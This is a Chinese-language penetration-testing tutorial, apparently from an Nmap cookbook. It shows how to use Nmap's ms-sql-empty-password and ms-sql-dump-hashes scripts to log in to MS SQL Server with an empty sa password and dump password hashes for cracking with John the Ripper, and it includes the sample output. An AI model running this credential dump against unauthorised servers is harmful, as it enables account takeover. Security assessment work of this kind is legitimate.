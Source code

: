 获得对 MS SQL 服务器的访问权限后，我们可以转储 MS SQL 服务器的所有密码哈希以破坏其他帐户。Nmap 可以帮助我们以可供**John the Ripper**破解工具使用的格式检索这些哈希。

此教程显示了如何使用 Nmap 转储 MS SQL 服务器的可破解密码哈希。

## 如何做...

要转储具有空 sysadmin 密码的 MS SQL 服务器的所有密码哈希，请运行以下 Nmap 命令：

```
$ nmap -p1433 --script ms-sql-empty-password,ms-sql-dump-hashes <target>

```

密码哈希将包含在`ms-sql-dump-hashes`脚本输出部分中：

```
PORT     STATE SERVICE  VERSION 
1433/tcp open  ms-sql-s Microsoft SQL Server 2011 
Service Info: CPE: cpe:/o:microsoft:windows 

Host script results: 
| ms-sql-empty-password: 
|   [192.168.1.102\MSSQLSERVER] 
|_    sa:<empty> => Login Success 
| ms-sql-dump-hashes: 
| [192.168.1.102\MSSQLSERVER] 
|     sa:0x020039AE3752898DF2D260F2D4DC7F09AB9E47BAB2EA3E1A472F49520C26E206D0613E34E92BF929F53C463C5B7DED53738A7FC0790DD68CF1565469207A50F98998C7E5C610 
|     ##MS_PolicyEventProcessingLogin##:0x0200BB8897EC23F14FC9FB8BFB0A96B2F541ED81F1103FD0FECB94D269BE15889377B69AEE4916307F3701C4A61F0DFD9946209258A4519FE16D9204580068D2011F8FBA7AD4 
|_    ##MS_PolicyTsqlExecutionLogin##:0x0200FEAF95E21A02AE55D76F68067DB02DB59AE84FAD97EBA7461CB103361598D3683688F83019E931442EC3FB6342050EFE6ACE4E9568F69D4FD4557C2C443243E240E66E10 

```

## 它是如何工作的...

MS SQL 服务器通常在 TCP 端口 1433 上运行。参数`-p1433 --script ms-sql-empty-password,ms-sql-dump-hashes`启动脚本`ms-sql-empty-password`，该脚本找到一个空的 root sysadmin 帐户，然后在端口 1433 上运行脚本`ms-sql-dump-hashes`。

`ms-sql-dump-hashes`脚本由 Patrik Karlsson 编写，其功能是检索 MS SQL 服务器的密码哈希，以便像 John the Ripper 这样的破解工具使用。此脚本依赖于`mssql`库。您可以在`http://nmap.org/nsedoc/lib/mssql.html`了解更多信息。

## 还有更多...

如果 SMB 端口打开，您可以使用它通过设置参数`mssql.instance-all`或`mssql.instance-name`来运行此脚本：

```
PORT    STATE SERVICE 
445/tcp open  microsoft-ds 

Host script results: 
| ms-sql-empty-password: 
|   [192.168.1.102\MSSQLSERVER] 
|_    sa:<empty> => Login Success 
| ms-sql-dump-hashes: 
| [192.168.1.102\MSSQLSERVER] 
|
  sa:0x020039AE3752898DF2D260F2D4DC7F09AB9E47BAB2EA3E1A472F49520C26E206D0613E34E92BF929F53C463C5B7DED53738A7FC0790DD68CF1565469207A50F98998C7E5C610 
|     ##MS_PolicyEventProcessingLogin##:0x0200BB8897EC23F14FC9FB8BFB0A96B2F541ED81F1103FD0FECB94D269BE15889377B69AEE4916307F3701C4A61F0DFD9946209258A4519FE16D9204580068D2011F8FBA7AD4 
|_    ##MS_PolicyTsqlExecutionLogin##:0x0200FEAF95E21A02AE55D76F68067DB02DB59AE84FAD97EBA7461CB103361598D3683688F83019E931442EC3FB6342050EFE6ACE4E9568F69D4FD4557C2C443243E240E66E10 

```